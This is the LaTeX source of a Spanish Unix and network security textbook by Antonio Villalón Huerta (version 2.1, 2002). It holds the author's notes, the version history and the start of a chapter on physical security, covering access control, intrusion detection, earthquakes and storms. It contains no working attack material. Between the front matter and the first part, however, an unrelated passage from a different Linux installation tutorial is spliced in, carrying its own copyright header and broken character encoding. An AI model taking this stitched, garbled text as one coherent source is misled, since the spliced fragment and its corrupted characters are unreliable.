\documentclass{book}
%\usepackage[dvips]{graphics}
\usepackage[pdftex]{graphicx}
\usepackage[spanish]{babel}
\usepackage{rotating}
% Para generar correctamente PostScript Type 1
%\usepackage{pslatex}
\oddsidemargin 0in
\evensidemargin 0in
%\textheight 650pt
\textheight 685pt
\textwidth 430pt
\topmargin 0in 
\headsep 9pt
\parindent 9pt
%\makeindex
\pagenumbering{roman}
% Ponemos la bibliografia en el indice
\let\OLDthebibliography=\thebibliography
\def\thebibliography#1{\OLDthebibliography{#1}%
\addcontentsline{toc}{chapter}{\bibname}}
% Fin ordenes bibliografia
\begin{document}
\bibliographystyle{alpha}
\title{\Huge{SEGURIDAD EN UNIX Y REDES}\vspace{0.7cm}\\
\Large{Versi\'on 2.1}}
\author{\LARGE{Antonio Villal\'on Huerta}}
\date{Julio, 2002}
\maketitle
\cleardoublepage
\pagestyle{headings}
\frontmatter
%% Licencia
\begin{center}
\makebox[3in][l]{\parbox[t]{4in}{
\vspace{8cm}
\it Copyright \copyright\ 2000,2002 Antonio Villal\'on Huerta.\\
Permission is granted to copy, distribute and/or modify this do\-cu\-ment under 
the 
terms of the GNU Free Documentation License, Version 1.1 or any later version 
published by the Free Software Foundation; with the Invariant Sections being 
`Notas del Autor' and `Conclusiones', with no Front-Cover Texts, and with no 
Back-Cover Texts. A copy of the license is included in the section entitled 
`GNU Free Documentation License'.}}
\end{center}
\cleardoublepage
%% Fin licencia
\tableofcontents
\listoffigures
\listoftables
\cleardoublepage
\chapter{Notas del autor}
El mundo de la seguridad inform\'atica es demasiado amplio y complejo como para
ser tratado exhaustivamente en ning\'un trabajo, mucho menos en uno tan simple
como este; aqu\'{\i} \'unicamente he intentado resumir
una visi\'on global de diferentes aspectos relacionados con la seguridad, 
especialmente con Unix y redes de computadores (estas \'ultimas tan de moda hoy
en d\'{\i}a\ldots Unix por desgracia no tanto). Este trabajo est\'a casi 
completamente extra\'{\i}do de mi proyecto final de carrera, que estudiaba la
seguridad en los sistemas Unix y la red de la Universidad Polit\'ecnica
de Valencia (UPV), de forma que si aparece alguna referencia a `nuestra red' o
`nuestros equipos' -- aunque he intentado eliminar todos los ejemplos y 
comentarios relativos a UPV, por motivos obvios -- ya sabemos de qu\'e se 
trata. A pesar de haberlo revisado bastantes veces (lo bueno de no tener vida 
social es que uno tiene mucho tiempo para leer ;-), evidentemente 
existir\'an errores y faltar\'an datos que podr\'{\i}an haber aparecido, por lo 
que agradecer\'e cualquier
sugerencia o cr\'{\i}tica (constructiva, las destructivas directamente a 
{\tt /dev/null}) que se me quiera hacer. Para ponerse en contacto conmigo
se puede utilizar la direcci\'on de correo electr\'onico que utilizo 
habitualmente: {\tt toni@aiind.upv.es}.\\ 
\\Durante la realizaci\'on de este proyecto ni se han maltratado animales ni
se han utilizado productos Microsoft; personalmente, siempre he considerado 
rid\'{\i}culo
hablar de seguridad en Unix -- incluso de seguridad en general -- y hacerlo
utilizando productos de una compa\~n\'{\i}a que tantas veces ha demostrado su
desinter\'es por la tecnolog\'{\i}a frente a su inter\'es por el {\it 
marketing}. 
El trabajo entero ha sido creado sobre diversos clones de Unix (principalmente
Solaris y Linux, y en menor medida HP-UX, BSD/OS, IRIX, AIX e incluso Minix). 
El texto ha sido escrito \'{\i}ntegramente con {\tt vi} ({\tt vi} es {\bf EL} 
editor, el resto de editores no son {\tt vi} ;-) y compuesto
con \LaTeX, de Leslie Lamport; realmente, algunos fragmentos han sido 
extra\'{\i}dos de documentos que hice hace tiempo con {\tt troff} (s\'{\i}, 
{\tt troff}), de Joe Ossanna y Brian Kernighan, transformados a \LaTeX\ mediante
{\tt tr2tex}, de Kamal Al--Yahya, y retocados con algo de paciencia. Para las 
figuras simples he utilizado el 
lenguaje PIC, tambi\'en de Brian Kernighan, y para las que son m\'as complejas
{\tt xfig}. La captura de alguna pantalla se ha hecho con {\tt xwd} y {\sc
gimp}, y el retoque y transformaci\'on de im\'agenes con este \'ultimo junto a 
{\tt xv} y {\tt xpaint}.\\
\\Quiero agradecer desde aqu\'{\i} la colaboraci\'on desinteresada de algunas
personas que han hecho posible este trabajo (m\'as concretamente, que hicieron
posible mi proyecto final de carrera): Pedro L\'opez (Departamento
de Inform\'atica de Sistemas y Computadores, UPV),
Jon Ander G\'omez (Departamento de Sistemas Inform\'aticos y Computaci\'on,
UPV), Vicent Benet (Centro de C\'alculo, UPV), Jos\'e Manuel Pasamar
(Centro de C\'alculo, UPV) y Albert Ortiz (Universitat Polit\`ecnica de
Catalunya). Y por supuesto a mi director, Ismael Ripoll (Departamento de 
Inform\'atica de Sistemas y Computadores, UPV).\\
\\Tras publicar la versi\'on 1.0 de este trabajo, algunos de los primeros 
comentarios que se me han hecho trataban sobre los posibles problemas legales
derivados de la falta de una licencia para el documento; desconozco hasta qu\'e
punto esos problemas son reales, pero de cualquier forma para tratar de 
evitarlos he decidido adoptar la {\it Open Publication License} como formato de
licencia bajo la que distribuir mi trabajo, al menos de forma temporal. Eso
b\'asicamente implica (en castellano plano) que puedes imprimir el documento, 
leerlo, fotocopiarlo, regalarlo o similares, pero {\bf no} venderlo; este
trabajo es gratuito y pretendo que lo siga siendo. Si alguien lo encuentra
\'util, que me apoye moralmente con un {\it e-mail} :), y si alguien lo 
encuentra {\bf muy} \'util (lo dudo) que destine el dinero que crea que 
pagar\'{\i}a por esto a cosas m\'as \'utiles. >Sab\'{\i}as que cada minuto
mueren de hambre aproximadamente doce ni\~nos en el tercer mundo? En el tiempo
que te puede costar leer estas notas con un m\'{\i}nimo de inter\'es habr\'an
muerto unos veinticinco; mientras que nosotros nos preocupamos intentando 
proteger nuestros sistemas, hay millones de personas que no pueden perder el 
tiempo en esas cosas: est\'an demasiado ocupadas intentando sobrevivir.\\
\\Ah, por \'ultimo, ser\'{\i}a imperdonable no dar las gracias a la gente que ha
le\'{\i}do este trabajo y me ha informado de erratas que hab\'{\i}a en \'el;
he intentado corregir todos los fallos encontrados, pero a\'un habr\'a errores, 
por lo que repito lo que dec\'{\i}a al principio: todos los comentarios 
constructivos son siempre bienvenidos. Debo agradecer especialmente a David 
Cerezo el inter\'es que demostr\'o en las versiones iniciales de este 
documento, as\'{\i} como todas las observaciones que sobre las mismas me hizo 
llegar.
\vspace{1cm}\\
{\bf NOTAS A LA VERSI\'ON 2.0}\\
No hay mucho que a\~nadir a lo dicho hace casi dos a\~nos; y es que las cosas
apenas han cambiado: el panorama en Espa\~na -- en cuanto a seguridad se 
refiere -- sigue siendo desolador, las empresas tecnol\'ogicas caen d\'{\i}a a
d\'{\i}a, la investigaci\'on en materias de seguridad (si exceptuamos la 
Criptograf\'{\i}a) es nula, y poco m\'as. S\'olo dar las gracias una vez m\'as 
a todos los que 
han publicado o se han hecho eco de este documento (Kript\'opolis, HispaLinux,
IrisCERT, Hispasec, Asociaci\'on de Internautas\ldots) y tambi\'en a toda la 
gente que lo ha leido (al menos en parte ;-) y ha perdido unos minutos 
escribi\'endome un {\it e--mail} con alg\'un comentario; realmente es algo que
se agradece, y aunque tarde en responder al correo, siempre trato de 
contestar.\\
\\Como algunos de los comentarios acerca del documento que me han llegado
hablaban del `excesivo' tama\~no del mismo, en esta nueva versi\'on he cambiado
la forma de generar el fichero PDF; he convertido todas las im\'agenes a
formato PNG y despu\'es utilizado {\tt pdflatex} para compilar los ficheros,
habiendo modificado previamente el c\'odigo mediante un sencillo {\it script}. 
Aunque a\'un ocupa bastante, hay que tener en cuenta que estamos hablando de
unas 500 p\'aginas de documento\ldots
\vspace{1cm}\\
{\bf TODO}\\
Igual que hace casi dos a\~nos, sigue en pie la intenci\'on de crear 
cap\'{\i}tulos nuevos (las redes privadas virtuales es mi principal tema 
pendiente) y de comentar la seguridad de mecanismos como DNS, RPC, NIS o 
NFS\ldots espero disponer de algo m\'as de tiempo para poder hacerlo. Quiero 
tambi\'en escribir m\'as acerca de la detecci\'on de intrusos, no s\'e si en 
este documento o en uno aparte, ya que es quiz\'as el tema que m\'as me 
interesa y en lo que m\'as trabajo actualmente. Y finalmente, en mi lista de
cosas para hacer, pone {\bf dormir} (s\'{\i}, lo pone en negrita) como algo que 
tambi\'en queda pendiente :)
\vspace{1cm}\\
{\bf HISTORY}\\
{\bf Versi\'on 1.0} (Julio\'{}00): Documento inicial.\\
{\bf Versi\'on 1.1} (Agosto\'{}00): Peque\~nas correcciones e inclusi\'on de la
{\it Open Publication License}.\\
{\bf Versi\'on 1.2} (Septiembre\'{}00): M\'as correcciones. Ampliaci\'on del 
cap\'{\i}tulo dedicado a servicios de red.\\
{\bf Versi\'on 2.0} (Mayo\'{}02): Cap\'{\i}tulos dedicados a los sistemas de 
detecci\'on de intrusos y a los ataques remotos contra un sistema. Sustituci\'on
del cap\'{\i}tulo referente al n\'ucleo de algunos sistemas Unix por varios
cap\'{\i}tulos que tratan particularidades de diferentes clones con mayor 
detalle. Desglose del cap\'{\i}tulo dedicado a los sistemas cortafuegos en dos,
uno te\'orico y otro con diferentes casos pr\'acticos de estudio. Ampliaci\'on
de los cap\'{\i}tulos dedicados a autenticaci\'on de usuarios (PAM) y a 
criptograf\'{\i}a (funciones resumen). Ampliaci\'on del cap\'{\i}tulo dedicado
a pol\'{\i}ticas y normativa, que ahora pasa a denominarse {\it `Gesti\'on de
la seguridad'}.\\
{\bf Versi\'on 2.1} (Julio\'{}02): Alguna correcci\'on m\'as e inclusi\'on de
la {\it GNU Free Documentation License} (implica que el c\'odigo fuente en 
\TeX\ pasa a ser libre).

%\cleardoublepage
\setcounter{page}{0}
\pagenumbering{arabic}
\mainmatter
% \linux Installation and Getting Started    -*- TeX -*-
% tut-intro.tex
% Copyright (c) 1992, 1993 by Matt Welsh, Larry Greenfield and Karl Fogel
%
% This file is freely redistributable, but you must preserve this copyright 
% notice on all copies, and it must be distributed only as part of "\linux 
% Installation and Getting Started". This file's use is covered by
% the copyright for the entire document, in the file "copyright.tex".
%
% Copyright (c) 1998 by Specialized Systems Consultants Inc. 
% <ligs@ssc.com>
%Revisi�n 1 por Francisco Javier Fernandes <serrador@arrakis.es>
%gold
\section{Introducci�n}

Si es nuevo en UNIX y {\linux}, puede que est� un poco intimidado por el tama�o y
la aparente complejidad del sistema que tiene delante suya.
Este cap�tulo no profundiza en muchos detalles ni cubre
temas avanzados. Por contra, queremos que aterrice corriendo.

Aqu� se asume que posee pocos conocimientos, salvo quiz�s
algo de familiaridad con ordenadores personales, y MS-DOS. Sin embargo, incluso 
si no es un usuario de MS-DOS, deber�a ser capaz de entender todo esto. A primera 
vista, {\linux} se parece mucho a MS-DOS---despu�s de todo, hay partes de MS-DOS 
basadas en el sistema operativo CP/M, que a su vez se basaba en UNIX. Sin embargo,
s�lo las caracter�sticas m�s superficiales de {\linux} se parecen a MS-DOS. Incluso 
si es completamente nuevo en el mundo del PC, este tutorial deber�a serle de ayuda.

Y, antes de que comencemos: {\em No tenga miedo a experimentar \/} El sistema
no le morder�. No se puede destrozar todo s�lo por trabajar con el sistema.
{\linux} tiene incorporadas caracter�sticas de seguridad para evitar que usuarios 
''normales''da�en ficheros que sean imprescindibles para el sistema. Aun as�, 
lo peor que puede ocurrir es que borre todos o algunos de sus ficheros y tenga que
reinstalar el sistema. As� que, en este punto, no tiene nada
que perder.



\cleardoublepage
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
% Seguridad del entorno de operaciones
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
\part{Seguridad del entorno de operaciones}

\cleardoublepage
\chapter{Seguridad f\'{\i}sica de los sistemas}
\section{Introducci\'on}
Seg\'un \cite{kn:glo}, la seguridad f\'{\i}sica de los sistemas inform\'aticos
consiste en {\it la aplicaci\'on de barreras f\'{\i}sicas y procedimientos de
control como medidas de prevenci\'on y contramedidas contra las amenazas a los
recursos y la informaci\'on confidencial}. M\'as claramente, y particularizando
para el caso de equipos Unix y sus centros de operaci\'on, por `seguridad 
f\'{\i}sica' podemos entender todas aquellas mecanismos -- generalmente de
prevenci\'on y detecci\'on -- destinados a proteger f\'{\i}sicamente cualquier
recurso del sistema; estos recursos son desde un simple teclado hasta una 
cinta de {\it backup} con toda la informaci\'on que hay en el sistema, pasando 
por la propia {\sc cpu} de la m\'aquina.\\
\\Desgraciadamente, la seguridad f\'{\i}sica es un aspecto olvidado con 
demasiada frecuencia a la hora de hablar de seguridad inform\'atica en general;
en muchas organizaciones se suelen tomar medidas para prevenir o detectar 
accesos no autorizados o negaciones de servicio, pero rara vez para prevenir
la acci\'on de un atacante que intenta acceder f\'{\i}sicamente a la sala de 
operaciones o al lugar donde se depositan las impresiones del sistema. Esto 
motiva que en determinadas situaciones un atacante se decline por aprovechar
vulnerabilidades f\'{\i}sicas en lugar de l\'ogicas, ya que posiblemente le
sea m\'as f\'acil robar una cinta con una imagen completa del sistema que 
intentar acceder a \'el mediante fallos en el {\it software}. Hemos de ser 
conscientes de que la seguridad f\'{\i}sica es demasiado importante como para
ignorarla: un ladr\'on que roba un ordenador para venderlo, un incendio o un
pirata que accede sin problemas a la sala de operaciones nos pueden hacer mucho
m\'as da\~no que un intruso que intenta conectar remotamente con una m\'aquina
no autorizada; no importa que utilicemos los m\'as avanzados medios de cifrado
para conectar a nuestros servidores, ni que hayamos definido una pol\'{\i}tica
de {\it firewalling} muy restrictiva: si no tenemos en cuenta factores 
f\'{\i}sicos, estos esfuerzos para proteger nuestra informaci\'on no van a 
servir de nada. Adem\'as, en el caso de organismos con requerimientos de 
seguridad medios, unas medidas de seguridad f\'{\i}sicas ejercen un efecto 
disuasorio sobre la mayor\'{\i}a de piratas: como casi todos los atacantes de 
los equipos de estos entornos son casuales (esto
es, no tienen inter\'es espec\'{\i}fico sobre {\it nuestros} equipos, sino sobre
{\it cualquier} equipo), si notan a trav\'es de medidas f\'{\i}sicas que 
nuestra organizaci\'on est\'a preocupada por la seguridad probablemente 
abandonar\'an el ataque para lanzarlo contra otra red menos protegida.\\
\\Aunque como ya dijimos en la introducci\'on este proyecto no puede 
centrarse en el dise\~no de edificios resistentes a un terremoto o en la 
instalaci\'on de alarmas electr\'onicas, s\'{\i} que se van a intentar comentar
ciertas medidas de prevenci\'on y detecci\'on que se han de tener en cuenta a
la hora de definir mecanismos y pol\'{\i}ticas para la seguridad de nuestros
equipos. Pero hemos de recordar que cada sitio es diferente, y por tanto 
tambi\'en lo son sus necesidades de seguridad; de esta forma, no se pueden dar 
recomendaciones espec\'{\i}ficas sino pautas generales a tener en cuenta, que
pueden variar desde el simple sentido com\'un (como es el cerrar con llave la
sala de operaciones cuando salimos de ella) hasta medidas mucho m\'as 
complejas, como la prevenci\'on de radiaciones electromagn\'eticas de los
equipos o la utilizaci\'on de {\it degaussers}. En entornos habituales
suele ser suficiente con un poco de sentido com\'un para conseguir una 
m\'{\i}nima seguridad f\'{\i}sica; de cualquier forma, en cada instituci\'on se
ha de analizar el valor de lo que se quiere proteger y la probabilidad de las 
amenazas potenciales, para en funci\'on de los resultados obtenidos dise\~nar
un plan de seguridad adecuado. Por ejemplo, en una empresa ubicada en 
Valencia quiz\'as parezca absurdo hablar de la prevenci\'on ante terremotos
(por ser esta un \'area de bajo riesgo), pero no suceder\'a lo mismo en una
universidad situada en una zona s\'{\i}smicamente activa; de la misma forma, en
entornos de I+D es absurdo hablar de la prevenci\'on ante un ataque nuclear,
pero en sistemas militares esta amenaza se ha de tener en cuenta\footnote{Al 
menos en teor\'{\i}a, ya que nadie sabe con certeza lo que sucede en 
organismos de defensa, excepto ellos mismos.}.
\section{Protecci\'on del {\it hardware}}
El {\it hardware} es frecuentemente el elemento m\'as caro de todo sistema
inform\'atico\footnote{Como dijimos, el m\'as caro, pero no el m\'as 
dif\'{\i}cil de recuperar.}. Por tanto, las medidas encaminadas a asegurar 
su integridad son una parte importante de la seguridad f\'{\i}sica de cualquier
organizaci\'on, especialmente en las dedicadas a I+D: universidades, centros
de investigaci\'on, institutos tecnol\'ogicos\ldots suelen poseer entre sus
equipos m\'aquinas muy caras, desde servidores con una gran potencia de 
c\'alculo hasta {\it routers} de \'ultima tecnolog\'{\i}a, pasando por modernos
sistemas de transmisi\'on de datos como la fibra \'optica.\\
\\Son muchas las amenazas al {\it hardware} de una instalaci\'on inform\'atica;
aqu\'{\i} se van a presentar algunas de ellas, sus posibles efectos y algunas
soluciones, si no para evitar los problemas s\'{\i} al menos para minimizar sus
efectos.
\subsection{Acceso f\'{\i}sico}
La posibilidad de acceder f\'{\i}sicamente a una m\'aquina Unix -- en general,
a cualquier sistema operativo -- hace in\'utiles casi todas las medidas de 
seguridad que hayamos aplicado sobre ella: hemos de pensar que si un atacante 
puede llegar con total libertad hasta una estaci\'on puede por ejemplo abrir la 
CPU y llevarse un disco duro; sin necesidad de privilegios en el sistema, sin
importar la robustez de nuestros cortafuegos, sin nisiquiera una clave de 
usuario, el atacante podr\'a seguramente modificar la informaci\'on almacenada, 
destruirla o simplemente leerla. Incluso sin llegar al extremo de desmontar
la m\'aquina, que quiz\'as resulte algo exagerado en entornos cl\'asicos
donde hay cierta vigilancia, como un laboratorio o una sala de inform\'atica,
la persona que accede al equipo puede pararlo o arrancar una versi\'on 
diferente del sistema operativo sin llamar mucho la atenci\'on. Si por ejemplo
alguien accede a un laboratorio con m\'aquinas Linux, seguramente le resultar\'a
f\'acil utilizar un disco de arranque, montar los discos duros de la m\'aquina
y extraer de ellos la informaci\'on deseada; incluso es posible que utilice un
{\it ramdisk} con ciertas utilidades que constituyan una amenaza para otros 
equipos, como {\it nukes} o {\it sniffers}.\\
\\Visto esto, parece claro que cierta seguridad f\'{\i}sica es necesaria para
garantizar la seguridad global de la red y los sistemas conectados a ella; 
evidentemente el nivel de seguridad f\'{\i}sica depende completamente del 
entorno donde se ubiquen los puntos a proteger (no es necesario hablar s\'olo
de equipos Unix, sino de cualquier elemento f\'{\i}sico que se pueda utilizar
para amenazar la seguridad, como una toma de red apartada en cualquier rinc\'on
de un edificio de nuestra organizaci\'on). Mientras que parte de los equipos 
estar\'an bien protegidos,
por ejemplo los servidores de un departamento o las m\'aquinas de los despachos,
otros muchos estar\'an en lugares de acceso semip\'ublico, como laboratorios
de pr\'acticas; es justamente sobre estos \'ultimos sobre los que debemos 
extremar las precauciones, ya que lo m\'as f\'acil y discreto para un atacante
es acceder a uno de estos equipos y, en segundos, lanzar un ataque completo 
sobre la red.
\subsubsection{Prevenci\'on}
>C\'omo prevenir un acceso f\'{\i}sico no autorizado a un determinado punto? 
Hay soluciones para todos los gustos, y tambi\'en de todos los precios: desde
analizadores de retina hasta videoc\'amaras, pasando por tarjetas inteligentes
o control de las llaves que abren determinada puerta. Todos los modelos de
autenticaci\'on de usuarios (cap\'{\i}tulo \ref{auth}) son aplicables, aparte
de para controlar el acceso l\'ogico a los sistemas, para controlar el acceso
f\'{\i}sico; de todos ellos, quiz\'as los m\'as adecuados a la seguridad
f\'{\i}sica sean los biom\'etricos y los basados en algo pose\'{\i}do; aunque
como comentaremos m\'as tarde suelen resultar algo caros para utilizarlos 
masivamente en entornos de seguridad media.\\
\\Pero no hay que irse a sistemas tan complejos para prevenir accesos 
f\'{\i}sicos no autorizados; normas tan elementales como cerrar las puertas 
con llave al salir de un laboratorio o un despacho o bloquear las tomas de
red que no se suelan utilizar y que est\'en situadas en lugares apartados son
en ocasiones m\'as que suficientes para prevenir ataques. Tambi\'en basta el
sentido com\'un para darse cuenta de que el cableado de red es un elemento 
importante para la seguridad, por lo que es recomendable apartarlo del acceso
directo; por desgracia, en muchas organizaciones podemos ver excelentes
ejemplos de lo que {\bf no} hay que hacer en este sentido: cualquiera que 
pasee por entornos m\'as o menos amplios (el campus de una universidad, por
ejemplo) seguramente podr\'a ver -- o pinchar, o cortar\ldots -- cables 
descolgados al alcance de todo el mundo, especialmente durante el verano, 
\'epoca que se suele aprovechar para hacer obras.\\ 
\\Todos hemos visto pel\'{\i}culas en las que se mostraba un estricto control
de acceso a instalaciones militares mediante tarjetas inteligentes, analizadores
de retina o verificadores de la geometr\'{\i}a de la mano; aunque algunos de
estos m\'etodos a\'un suenen a ciencia ficci\'on y sean demasiado caros para
la mayor parte de entornos (recordemos que si el sistema de protecci\'on es
m\'as caro que lo que se quiere proteger tenemos un grave error en nuestros
planes de seguridad), otros se pueden aplicar, y se aplican, en muchas 
organizaciones. Concretamente, el uso de lectores de tarjetas para poder acceder
a ciertas dependencias es algo muy a la orden del d\'{\i}a; la idea es 
sencilla: alguien pasa una tarjeta por el lector, que conecta con un sistema 
-- por ejemplo un ordenador -- en el que existe una base de datos con 
informaci\'on de los usuarios y los recintos a los que se le permite el acceso.
Si la tarjeta pertenece a un usuario capacitado para abrir la puerta, \'esta se
abre, y en caso contrario se registra el intento y se niega el acceso. Aunque 
este m\'etodo quiz\'as resulte algo caro para extenderlo a
todos y cada uno de los puntos a proteger en una organizaci\'on, no ser\'{\i}a 
tan descabellado instalar peque\~nos lectores de c\'odigos de barras conectados
a una m\'aquina Linux en las puertas de muchas \'areas, especialmente en las
que se maneja informaci\'on m\'as o menos sensible. Estos lectores podr\'{\i}an 
leer una tarjeta que todos los miembros de la organizaci\'on poseer\'{\i}an, 
conectar con la base de datos de usuarios, y autorizar o denegar la apertura de 
la puerta. Se 
tratar\'{\i}a de un sistema sencillo de implementar, no muy caro, y que cubre
de sobra las necesidades de seguridad en la mayor\'{\i}a de entornos:
incluso se podr\'{\i}a abaratar si en lugar de utilizar un mecanismo para abrir
y cerrar puertas el sistema se limitara a informar al administrador del \'area 
o a un guardia de seguridad mediante un mensaje en pantalla o una luz 
encendida: de esta forma
los \'unicos gastos ser\'{\i}an los correspondientes a los lectores de c\'odigos
de barras, ya que como equipo con la base de datos se puede utilizar una 
m\'aquina vieja o un servidor de prop\'osito general.
\subsubsection{Detecci\'on}
Cuando la prevenci\'on es dif\'{\i}cil por cualquier motivo (t\'ecnico, 
econ\'omico, humano\ldots) es deseable que un potencial ataque sea detectado
cuanto antes, para minimizar as\'{\i} sus efectos. Aunque en la detecci\'on de
problemas, generalmente accesos f\'{\i}sicos no autorizados, intervienen medios
t\'ecnicos, como c\'amaras de vigilancia de circuito cerrado o alarmas, en 
entornos m\'as normales el esfuerzo en detectar estas amenazas se ha de centrar 
en las personas que
utilizan los sistemas y en las que sin utilizarlos est\'an relacionadas de 
cierta forma con ellos; sucede lo mismo que con la seguridad l\'ogica: se ha
de ver toda la protecci\'on como una cadena que falla si falla su eslab\'on
m\'as d\'ebil.\\
\\Es importante concienciar a todos de su papel en la pol\'{\i}tica de seguridad
del entorno; si por ejemplo un usuario autorizado detecta presencia de alguien 
de quien sospecha que no tiene autorizaci\'on para estar en una determinada
estancia debe avisar inmediatamente al administrador o al responsable de los
equipos, que a su vez puede avisar al servicio de seguridad si es necesario. No
obstante, utilizar este servicio debe ser s\'olamente un \'ultimo recurso: 
generalmente en la mayor\'{\i}a de entornos no estamos tratando con 
terroristas, sino por fortuna con elementos mucho menos peligrosos. Si 
cada vez que se sospecha de alguien se avisa al servicio de seguridad esto 
puede repercutir en el ambiente de trabajo de los usuarios autorizados 
estableciendo cierta presi\'on que no es en absoluto recomendable; un simple
{\it `>puedo ayudarte en algo?'} suele ser m\'as efectivo que un guardia 
solicitando una identificaci\'on formal. Esto es especialmente recomendable en
lugares de acceso restringido, como laboratorios de investigaci\'on o centros
de c\'alculo, donde los usuarios habituales suelen conocerse entre ellos y es
f\'acil detectar personas ajenas al entorno.
\subsection{Desastres naturales}
En el anterior punto hemos hecho referencia a accesos f\'{\i}sicos no 
autorizados a zonas o a elementos que pueden comprometer la seguridad de los
equipos o de toda la red; sin embargo, no son estas las \'unicas amenazas
relacionadas con la seguridad f\'{\i}sica. Un problema que no suele ser tan
habitual, pero que en caso de producirse puede acarrear grav\'{\i}simas
consecuencias, es el derivado de los desastres naturales y su (falta de) 
prevenci\'on.
\subsubsection{Terremotos}
Los terremotos son el desastre natural menos probable en la mayor\'{\i}a de 
organismos ubicados en Espa\~na,
simplemente por su localizaci\'on geogr\'afica: no nos encontramos en una zona
donde se suelan producir temblores de intensidad considerable; incluso en zonas
del sur de Espa\~na, como Almer\'{\i}a, donde la probabilidad de un temblor es
m\'as elevada, los terremotos no suelen alcanzan la magnitud necesaria para 
causar da\~nos en los equipos. Por tanto, no se suelen tomar medidas serias 
contra los movimientos s\'{\i}smicos, ya que la probabilidad de que sucedan
es tan baja que no merece la pena invertir dinero para minimizar sus efectos.\\
\\De cualquier forma, aunque algunas medidas contra terremotos son excesivamente
caras para la mayor parte de organizaciones en Espa\~na (evidentemente 
ser\'{\i}an igual
de caras en zonas como Los \'Angeles, pero all\'{\i} el coste estar\'{\i}a 
justificado por la alta probabilidad de que se produzcan movimientos de magnitud
considerable), no cuesta nada tomar ciertas medidas de prevenci\'on; por 
ejemplo, es muy recomendable no situar nunca equipos delicados en superficies
muy elevadas (aunque tampoco es bueno situarlos a ras de suelo, como veremos 
al hablar de inundaciones). Si lo hacemos, un peque\~no temblor puede tirar
desde una altura considerable un complejo {\it hardware}, lo que con toda 
probabilidad lo inutilizar\'a; puede incluso ser conveniente (y barato) utilizar
fijaciones para los elementos m\'as cr\'{\i}ticos, como las CPUs, los monitores
o los {\it routers}. De la misma forma, tampoco es recomendable situar
objetos pesados en superficies altas cercanas a los equipos, ya que si lo que
cae son esos objetos tambi\'en da\~nar\'an el {\it hardware}.\\
\\Para evitar males mayores ante un terremoto, tambi\'en es muy importante 
no situar equipos cerca de las ventanas: si se produce un temblor pueden
caer por ellas, y en ese caso la p\'erdida de datos o {\it hardware} pierde
importancia frente a los posibles accidentes -- incluso mortales -- que puede
causar una pieza voluminosa a las personas a las que les cae encima. Adem\'as,
situando los equipos alejados de las ventanas estamos dificultando las acciones
de un potencial ladr\'on que se descuelgue por la fachada hasta las ventanas, ya
que si el equipo estuviera cerca no tendr\'{\i}a m\'as que alargar el brazo para
llev\'arselo.\\
\\Quiz\'as hablar de terremotos en un trabajo dedicado a sistemas `normales'
especialmente cen\-tr\'an\-do\-nos en lugares con escasa actividad s\'{\i}smica
-- 
como es Espa\~na y m\'as concretamente la Comunidad Valenciana -- pueda resultar
incluso gracioso, o cuanto menos exagerado. No obstante, no debemos entender
por terremotos \'unicamente a los grandes desastres que derrumban edificios y
destrozan v\'{\i}as de comunicaci\'on; quiz\'as ser\'{\i}a mas apropiado hablar
incluso de {\bf vibraciones}, desde las m\'as grandes (los terremotos) hasta 
las m\'as peque\~nas (un simple motor cercano a los equipos). Las vibraciones,
incluso las m\'as imperceptibles, pueden da\~nar seriamente cualquier elemento
electr\'onico de nuestras m\'aquinas, especialmente si se trata de vibraciones
cont\'{\i}nuas: los primeros efectos pueden ser problemas con los cabezales de
los discos duros o con los circuitos integrados que se da\~nan en las placas.
Para hacer frente a peque\~nas vibraciones podemos utilizar plataformas de goma
donde situar a los equipos, de forma que la plataforma absorba la mayor parte
de los movimientos; incluso sin llegar a esto, una regla com\'un es evitar 
que entren en contacto equipos que poseen una electr\'onica delicada con {\it
hardware} m\'as mec\'anico, como las impresoras: estos dispositivos no paran de
generar vibraciones cuando est\'an en funcionamiento, por lo que situar una
peque\~na impresora encima de la CPU de una m\'aquina es una idea nefasta. Como
dicen algunos expertos en seguridad (\cite{kn:spa96}), el espacio en la sala de 
operaciones es un problema sin importancia comparado con las consecuencias de
fallos en un disco duro o en la placa base de un ordenador.
\subsubsection{Tormentas el\'ectricas}
Las tormentas con aparato el\'ectrico, especialmente frecuentes en verano 
(cuando mucho personal se encuentra de vacaciones, lo que las hace m\'as
peligrosas) generan subidas s\'ubitas de tensi\'on infinitamente superiores a
las que pueda generar un problema en la red el\'ectrica, como veremos a 
continuaci\'on. Si cae un rayo sobre la estructura met\'alica del edificio donde
est\'an situados nuestros equipos es casi seguro que podemos ir pensando en 
comprar otros nuevos; sin llegar a ser tan dram\'aticos, la ca\'{\i}da de un
rayo en un lugar cercano puede inducir un campo magn\'etico lo suficientemente
intenso como para destruir {\it hardware} incluso protegido contra voltajes
elevados.\\
\\Sin embargo, las tormentas poseen un lado positivo: son predecibles con m\'as
o menos exactitud, lo que permite a un administrador parar sus m\'aquinas y
desconectarlas de la l\'{\i}nea el\'ectrica\footnote{Al contrario de lo que
mucha gente piensa, no basta s\'olo con apagar un sistema para que se encuentre
a salvo.}. Entonces, >cu\'al es el problema? Aparte de las propias tormentas,
el problema son los responsables de los equipos: la ca\'{\i}da de un rayo es 
algo poco probable -- pero no imposible -- en una gran ciudad donde existen
artilugios destinados justamente a atraer rayos de una forma controlada; tanto
es as\'{\i} que mucha gente ni siquiera ha visto caer cerca un rayo, por lo que 
directamente tiende a asumir que eso no le va a suceder nunca, y menos a sus
equipos. Por tanto, muy pocos administradores se molestan en parar m\'aquinas
y desconectarlas ante una tormenta; si el fen\'omeno sucede durante las horas
de trabajo y la tormenta es fuerte, quiz\'as s\'{\i} que lo hace, pero si
sucede un s\'abado por la noche nadie va a ir a la sala de operaciones a 
proteger a los equipos, y nadie antes se habr\'a tomado la molestia de 
protegerlos por una simple previsi\'on meteorol\'ogica. Si a esto a\~nadimos lo
que antes hemos comentado, que las tormentas se producen con m\'as frecuencia
en pleno verano, cuando casi toda la plantilla est\'a de vacaciones y s\'olo
hay un par de personas de guardia, tenemos el caldo de cultivo ideal para que
una amenaza que {\it a priori} no es muy grave se convierta en el final de 
algunos de nuestros equipos. Conclusi\'on: todos hemos de tomar m\'as en serio
a la Naturaleza cuando nos avisa con un par de truenos\ldots\\
\\Otra medida de protecci\'on contra las tormentas el\'ectricas hace referencia
a la ubicaci\'on de los medios magn\'eticos, especialmente las copias de 
seguridad; aunque hablaremos con m\'as detalle de la protecci\'on de los {\it
